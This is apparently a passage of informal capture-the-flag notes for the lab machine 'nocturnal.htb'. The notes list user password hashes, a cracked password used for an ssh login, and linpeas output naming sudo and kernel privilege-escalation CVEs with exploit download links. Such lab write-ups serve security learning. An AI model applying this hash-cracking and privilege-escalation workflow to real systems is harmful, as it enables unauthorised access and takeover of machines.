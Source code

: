 |   |   |
|---|---|
|tobias|`55c82b1ccd55ab219b3b109b07d5061d`|

|   |   |
|---|---|
|amanda|`df8b20aa0c935023f99ea58358fb63c4`|

|   |   |
|---|---|
|admin|`d725aeba143f575736b07e045d8ceebb`|



I crack tobias on crackstation and i find his password is 
slowmotionapocalypse


ssh tobias@nocturnal.htb 

pass is slowmotionapocalypse


then i upload linpeas 


Priv esc


╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.8.31



[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

I also see this

root         937  0.0  0.6 211568 26864 ?        Ss   Apr14   0:05 /usr/bin/php -S 127.0.0.1:8080
root         943  0.0  0.0   6816  3028 ?        Ss   Apr14   0:00 /usr/sbin/cron -f
root         946  0.0  0.6 212396 27840 ?        Ss   Apr14   0:08 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
